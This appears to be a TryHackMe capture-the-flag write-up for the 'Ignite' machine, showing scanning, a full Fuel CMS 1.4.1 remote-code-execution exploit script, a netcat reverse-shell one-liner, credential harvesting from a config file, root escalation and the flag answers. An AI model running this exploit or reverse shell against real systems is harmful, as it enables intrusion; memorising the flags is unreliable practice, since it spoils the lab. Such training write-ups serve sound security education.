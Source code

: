 Swatish Attaluri
Date: 11-06-2021
## Ignite - Tryhackme
### Machine IP: 10.10.208.6
#### Nmap scan
```bash
$ nmap -sC -sC -oN ports 10.10.208.6
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-11 17:54 IST
Nmap scan report for 10.10.208.6
Host is up (0.16s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http
| http-robots.txt: 1 disallowed entry                                                   
|_/fuel/                                                                                        
|_http-title: Welcome to FUEL CMS                                                                  
                                                                                                           
Nmap done: 1 IP address (1 host up) scanned in 40.37 seconds    
```
#### Gobuster
```bash
$ gobuster dir -u 10.10.208.6 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee gobuster
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.208.6
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/11 17:55:39 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 16593]
/home                 (Status: 200) [Size: 16593]
/0                    (Status: 200) [Size: 16593]
/assets               (Status: 301) [Size: 311] [--> http://10.10.208.6/assets/]
/'                    (Status: 400) [Size: 1134]                                
Progress: 4312 / 220561 (1.96%)  
```
#### Gaining a reverse shell
The fuel CMS version is 1.4
Lets see if we have something on searchsploit
```bash
$ searchsploit fuel                     
-------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                            |  Path
-------------------------------------------------------------------------- ---------------------------------
AMD Fuel Service - 'Fuel.service' Unquote Service Path                    | windows/local/49535.txt
Franklin Fueling TS-550 evo 2.0.0.6833 - Multiple Vulnerabilities         | hardware/webapps/31180.txt
fuel CMS 1.4.1 - Remote Code Execution (1)                                | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                | php/webapps/49487.rb
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                      | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)          | php/webapps/48778.txt
-------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
We have remote code execution(2 of them) lets try with the first one.
Download the exploit:
```bash
$ searchsploit -m linux/webapps/47138.py
```
Looking into the python code:
```python
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

url = "http://10.10.109.213/"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+requests.utils.quote(xxxx)+"%27%29%2b%27"
	proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url, proxies=proxy)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print(r.text[0:dup])
```
Change the url to machine IP.
Looks like we need to open burp as the response is being redirected to proxy.
Turn on the intercept.
```python
$ python3 rce.py                                                                                    
cmd:ls
systemREADME.md
assets
composer.json
contributing.md
fuel
index.php
robots.txt
```
This result comes after we send the request in the repeater.
Now, lets use bash reverse shell in our python file in cmd input field
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc local_IP 9001 >/tmp/f
```
In another terminal open nc on our local machine on port 9001 
```bash
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.17.6.214] from (UNKNOWN) [10.10.109.213] 56738
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ cd home
cd home
bash: cd: home: No such file or directory
www-data@ubuntu:/var/www/html$ ls
ls
README.md  assets  composer.json  contributing.md  fuel  index.php  robots.txt
www-data@ubuntu:/var/www/html$ cd /home/
cd /home/
www-data@ubuntu:/home$ ls
ls
www-data
www-data@ubuntu:/home$ cd www-data
cd www-data
www-data@ubuntu:/home/www-data$ ls
ls
flag.txt
www-data@ubuntu:/home/www-data$ cat flag.txt
cat flag.txt
6470e394cbf6dab6a91682cc8585059b
```
#### Privilege Escalation
From the reference from a writeup, we are able to find the root password from a database.php file in config of our fuel application.
```bash
$ cat /var/www/html/fuel/application/config/database.php
'username' => 'root',
'password' => 'mememe',
```
Login as root
```bash
$ su root
su root
Password: mememe
# cat /root/root.txt
cat /root/root.txt
b9bbcb33e11b80be759c4e844862482d
```
#### Answers
```
User.txt
6470e394cbf6dab6a91682cc8585059b
Root.txt
b9bbcb33e11b80be759c4e844862482d
```
#python
#bash